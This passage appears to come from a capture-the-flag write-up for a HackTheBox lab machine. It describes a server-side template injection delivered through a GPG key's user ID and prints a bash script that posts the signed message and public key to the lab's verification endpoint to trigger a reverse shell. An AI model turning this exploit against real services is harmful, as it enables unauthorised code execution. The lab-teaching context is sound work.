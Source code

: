 ![](screenshots/11-evil-message-reflected.png)


Since the template injection was confirmed, the exploit could be automated, and a payload was provided to return a reverse shell.

Exploit script:

```sh
#!/bin/bash
echo "hello" > message.txt
gpg --batch --passphrase '' --quick-generate-key "`cat ssti.txt | tr -d '\n'`"
gpg --export --armor > public.key
gpg --clear-sign message.txt

message=`cat message.txt.asc`
pubkey=`cat public.key`
r=`curl "https://ssa.htb/process" -k --data-urlencode "signed_text=$message" --data-urlencode "public_key=$pubkey"`

echo $r | grep 'Good signature from.*\[unknown\] \[GNUPG:\]' -o

rm /home/kali/.gnupg/pubring.kbx
rm message.txt.asc        
```
